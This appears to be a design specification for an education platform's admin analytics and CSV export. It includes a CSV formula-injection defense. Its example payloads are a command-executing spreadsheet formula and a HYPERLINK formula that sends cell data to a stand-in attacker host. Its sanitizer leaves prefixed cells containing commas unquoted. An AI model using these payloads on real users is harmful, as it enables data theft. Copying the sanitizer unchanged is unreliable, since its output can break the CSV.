

# Phase 09: Admin Operations, Organization Management & Platform Governance — Reporting & Analytics

**Platform:** OgroniEdu (অগ্রণী ایڈু)  
**Phase:** 09: Admin Operations, Organization Management & Platform Governance  
**Date:** October 21, 2026  
**Status:** Approved Specification

---

## 1. Analytics & Reporting Architecture

OgroniEdu utilizes high-performance PostgreSQL aggregation queries directly against indexed operational tables. This avoids the cost, synchronization lag, and complexity of a separate data warehouse while guaranteeing real-time accuracy for executive decision-making.



---

## 2. Key Metric Definitions & Calculations

| Metric Name                       | Computation Formula / Logic                                                  | Index Utilized                   | Role Access                                   |
| :-------------------------------- | :--------------------------------------------------------------------------- | :------------------------------- | :-------------------------------------------- |
| **Pending Verifications**         | `COUNT(*) FROM tutor_profiles WHERE publication_status = 'pending_review'`   | `ix_tutor_profiles_price_search` | `admin`, `super_admin`, `compliance_reviewer` |
| **Active Bookings**               | `COUNT(*) FROM bookings WHERE status = 'confirmed'`                          | `idx_bookings_status`            | `admin`, `super_admin`                        |
| **Gross Merchandise Value (GMV)** | `SUM(amount_poisha) FROM payment_orders WHERE status = 'succeeded'`          | `idx_payment_orders_status`      | `admin`, `super_admin`                        |
| **Double-Entry Ledger Balance**   | `SUM(debit_poisha) - SUM(credit_poisha) == 0` across all `journal_entries`   | `ix_ledger_entries_account`      | `admin`, `super_admin`                        |
| **Tutor Response Time**           | `AVG(EXTRACT(EPOCH FROM (updated_at - created_at))/60)` on booking inquiries | `idx_bookings_created_at`        | `admin`, `super_admin`, `tutor` (own)         |
| **Learner 30-Day Retention**      | `COUNT(DISTINCT repeat_students) / COUNT(DISTINCT all_students)`             | `idx_bookings_student`           | `admin`, `super_admin`                        |

---

## 3. CSV Export & Anti-Formula Injection Specification

Administrative reports can be exported to standard CSV format via `GET /api/v1/admin/reports/export`.

### 3.1 Supported Report Datasets

1. `users`: Display name, email, phone, role, status, creation date, total bookings.
2. `bookings`: Booking ID, student name, tutor name, subject, status, price, created at.
3. `financial`: Order ID, transaction reference, amount, fee, escrow status, date.
4. `tutors`: Tutor name, verification tier, rate, publication status, rating.
5. `organizations`: Org name, slug, owner name, status, member count, trade license.

### 3.2 Anti-Formula Injection (CSV Injection Defense)

Spreadsheet applications (Microsoft Excel, Google Sheets, LibreOffice Calc) execute formulas if a cell begins with `=`, `+`, `-`, `@`, `\t`, or `\r`. Malicious actors could inject payloads like `=cmd|'/C calc'!A0` or `=HYPERLINK("http://evil.com?leak="&A1)`.

**Mandatory Sanitization Protocol**:

```typescript
export function sanitizeCsvCell(value: unknown): string {
  if (value === null || value === undefined) return '';
  const stringValue = String(value).trim();

  // If the cell begins with formula trigger characters, prepend a single quote
  if (/^[=+\-@\t\r]/.test(stringValue)) {
    return `'${stringValue.replace(/"/g, '""')}`;
  }

  // Standard CSV escaping: wrap in quotes if contains comma, quote, or newline
  if (/[",\n\r]/.test(stringValue)) {
    return `"${stringValue.replace(/"/g, '""')}"`;
  }
  return stringValue;
}
```

### 3.3 Export Audit Logging

Every CSV generation writes an audit event:

```json
{
  "actorUserId": "admin-uuid",
  "action": "admin.report.exported",
  "resourceType": "analytics",
  "safeMetadata": {
    "reportType": "users",
    "rowCount": 245,
    "filterDateRange": "2026-01-01 to 2026-10-21"
  }
}
```
